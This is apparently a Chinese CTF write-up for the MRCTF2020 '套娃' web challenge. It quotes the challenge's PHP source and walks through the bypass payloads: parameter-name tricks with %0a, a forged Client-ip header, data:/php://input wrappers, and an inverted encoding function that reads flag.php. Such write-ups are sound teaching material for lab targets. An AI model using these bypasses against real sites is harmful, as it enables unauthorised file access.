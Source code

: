 # \[MRCTF2020]套娃

## \[MRCTF2020]套娃

## 考点

* PHP参数污染
* PHP的字符串解析特性
* JSFuck

## wp

F12看到源码

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

`$_SERVER['QUERY_STRING']`是请求附带的参数，不能有`_`，但是后一段代码要求GET参数`b_u_p_t`，这是PHP的参数污染问题，用<mark style="color:orange;">`b[u[p[t`</mark>，发现不行，那还可以用<mark style="color:red;">`空格`</mark>或者<mark style="color:red;">`.`</mark>。又要求参数不等于23333，但是要和它长得一模一样，则可以使用%0a绕过`preg_match`

payload：`b u p t=23333%0a`

来到下一层`secrettw.php` ，F12看到一堆JSFuck编码，放到控制台执行，给了提示`post me Merak`

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

POST Merak可以得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

IP限制可以使用`Client-ip: 127.0.0.1`绕过，`file_get_contents($_GET['2333'])`可以使用`php://input`或者`data:text/plain,todat is a happy day`绕过，最后再反写`change`函数就可以了

`change`函数的加密逻辑就是 `C = P + 2x`，反过来不难写出解密逻辑

```php
function dechange($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
```

flag.php的密文为`ZmpdYSZmXGI=`

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)
2. 对于本地IP的绕过，可以使用`X-Forwarded-For`或者`Client-ip`
